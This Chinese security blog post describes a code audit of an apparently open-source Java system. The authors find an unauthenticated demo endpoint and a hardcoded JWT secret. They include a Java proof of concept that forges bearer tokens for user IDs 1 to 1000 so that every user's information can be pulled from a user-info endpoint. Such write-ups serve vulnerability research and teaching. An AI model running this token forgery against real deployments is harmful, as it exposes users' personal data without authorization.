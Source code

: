 

# 记一次代码审计中用户信息泄露漏洞挖掘及POC编写 - 先知社区

记一次代码审计中用户信息泄露漏洞挖掘及POC编写

- - -

路边捡到一份代码，抱着学习的心态和朋友一起看了看。感觉到有些安全隐患，最后看到一个危害还不错的洞。

[![](assets/1701747027-42a64a675e7dad89fca1c2a70565561b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000505-b8f8e3ca-91f5-1.png)

审java代码的话，常规思路就是首先就简单看看maven，然后就是鉴权，不过php、python的代码我一般是不分优先级看鉴权和sink。权限校验的代码通常会放在核心业务逻辑层。所以先简单看了看maven，了解此系统是否使用到危险的框架、组件版本，然后进一步去确认。

[![](assets/1701747027-8d692ab90acacf832a67fab5fc85143c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000140-3ef94722-91f5-1.png)

鉴权关键文件：/core/security/util/JwtTokenUtil.java

[![](assets/1701747027-51a3221c18f9c6fa97bb2e110fed7137.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000149-4456ea44-91f5-1.png)

阅读完此部分代码值得注意的点：1.可以看到这是一个用于生成和解析jwt的工具类，用于在验证身份和授权过程中jwt的处理（用于api类）、2.使用到的加密算法和SecretKey生成方式、3.其中使用到多个方法重载(有的构建/解析jwt方法太过简易)。那这就可以考虑是不是我们可以直接写个脚本生成一下有效token拿来进行身份认证，从而挖掘到未授权漏洞，不过还是需要进一步查看，因为第三点其中使用到多个方法重载，所以现在还不知道具体是怎么生成的token，怎么解析的token。  
除此之外还需注意的是一个注解: @passtoken()，先查询一下使用到了此注解的方法：

[![](assets/1701747027-760e1c929111e5e9c86266b30232b10b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000155-47f377f8-91f5-1.png)

即预设情况下就有以下16个可以存在@PassToken注解从而不需鉴权的接口  
新闻相关接口  
/api/xxx/news/page  
/api/xxx/news/info/{id}  
广告相关接口  
/api/xxx/ad/info/{id}  
/api/xxx/ad/get\_ad\_list  
demo类  
/api/xxx/demo/getUserToken  
/api/xxx/demo/errorLog  
/api/xxx/demo/log  
通知相关接口  
/api/xxx/notice/get\_notice  
发送手机验证码  
/api/xxx/sms\_code  
用户相关接口  
/api/xxx/user/mp/wx/auth  
/api/xxx/user/wx/auth  
/api/xxx/user/qq/auth/callback  
/api/xxx/user/qq/code  
/api/xxx/user/password/auth  
/api/xxx/user/mobile/auth  
/api/xxx/user/register

### 未授权访问信息泄露

重点关注demo类/api/xxx/demo/getUserToken：构建一个jwt，并返回。

[![](assets/1701747027-7354c17f3fe0dfbad68f57eb8d585bcc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000311-752a1880-91f5-1.png)

这里跟进一下36行buildJWT，就会发现前面谈到的，这里用了最简单的那个方法去构造jwt，这里需留个印象。

[![](assets/1701747027-6b2f8fdd93a524b995923308662f32ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000317-789da108-91f5-1.png)

接着获取token验证有效性，这里需要做一些修改，将sub值改为账户id

[![](assets/1701747027-65faf42a9abfe359dae6711a9618dd77.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000322-7bff4284-91f5-1.png)

访问api/v1/xxx/getUserToken获取token

[![](assets/1701747027-9a00baca2fe4d49893bb9478b5775b31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000327-7f02d838-91f5-1.png)

前面提到了并不是所有方法都使用到的jwt来鉴权，jwt鉴权的范围在module->api->controller文件夹下的几个类中

[![](assets/1701747027-d0764215f62e4a033a4876d53962838f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000332-81e035f0-91f5-1.png)

测试下来会发现有个较危险的接口：/api/xx/user/info  
攻击者可以遍历id参数（修改jwt中sub值即可）来获取全部用户信息

[![](assets/1701747027-adfe7d178522af5c95efd9d64fe56d78.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000343-880be712-91f5-1.png)

### POC编写

思路倒是很简单：枚举id->传入加密方法构建token->放入请求头Authorization->判断response  
不过就是很遗憾遇到两个Java代码转等效python的难点  
1.使用了UUID.randomUUID().toString()生成一个UUID字符串，而在python中没有等效的randomUUID  
2.generateKey中SecretkeySpec方法也很抽象，python写起来困难

所以最终就稍微麻烦了一点，先用java跑个Authorizition的字典，在用python去请求遍历吧，重点是能用就行。  
java部分代码如下，将token放入字典tokens.txt

```plain
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.SignatureAlgorithm;
import javax.crypto.SecretKey;
import javax.crypto.spec.SecretKeySpec;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.Key;
import java.util.*;

import org.apache.commons.codec.binary.Base64;
import org.joda.time.DateTime;

public class test {
    private static final SignatureAlgorithm JWT_ALG = SignatureAlgorithm.HS256;

    public static SecretKey generateKey(SignatureAlgorithm alg, String rule) {
        byte[] bytes = Base64.decodeBase64(rule);
        return new SecretKeySpec(bytes, alg.getJcaName());
    }


    public interface JwtConsts {
        String AUTH_HEADER = "Authorization";
        String SECRET = "defaultSecret";
        int EXPIRATION = 604800;
        String JWT_SEPARATOR = "Bearer ";
    }

    public static String buildJWT(SignatureAlgorithm alg, Key key, String sub, String aud, String jti, String iss, Date nbf, Integer duration) {
        DateTime iat = DateTime.now();
        DateTime exp = null;
        if (duration != null) {
            exp = (nbf == null ? iat.plusSeconds(duration) : new DateTime(nbf).plusSeconds(duration));
        }
        String compact = Jwts.builder()
                .signWith(alg, key)
                .setSubject(sub)
                .setAudience(aud)
                .setId(jti)
                .setIssuer(iss)
                .setNotBefore(nbf)
                .setIssuedAt(iat.toDate())
                .setExpiration(exp != null ? exp.toDate() : null)
                .compact();
        return io.github.yangyouwang.common.constant.JwtConsts.JWT_SEPARATOR + compact;
    }

    public static String buildJWT(String sub, String aud, String jti, String iss, Date nbf, Integer duration) {
        return buildJWT(JWT_ALG, generateKey(JWT_ALG, JwtConsts.SECRET), sub, aud, jti, iss, nbf, duration);
    }
    public static String buildJWT(String sub) {
        return buildJWT(sub, null, UUID.randomUUID().toString(), null, null, JwtConsts.EXPIRATION);
    }

    public Map<String,Object> userToken() {
        Map<String,Object> result = new HashMap<>(16);
        String token = buildJWT("1");
        result.put("token",token);
        return result;
    }

    public static void main(String[] args) {
        List<String> tokens = new ArrayList<>();

        for (int i = 1; i <= 1000; i++) {
            String token = buildJWT(String.valueOf(i));
            tokens.add(token);
        }

        try {
            Path filePath = Paths.get("tokens.txt");
            Files.write(filePath, tokens);
            System.out.println("Tokens have been successfully written to 'tokens.txt'.");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

[![](assets/1701747027-4f7293f31d948bbd36f794897d44c6e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000659-fd5b2cda-91f5-1.png)  
[![](assets/1701747027-1097f47e63820361de9a792572c9c855.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231204000655-fafecb22-91f5-1.png)
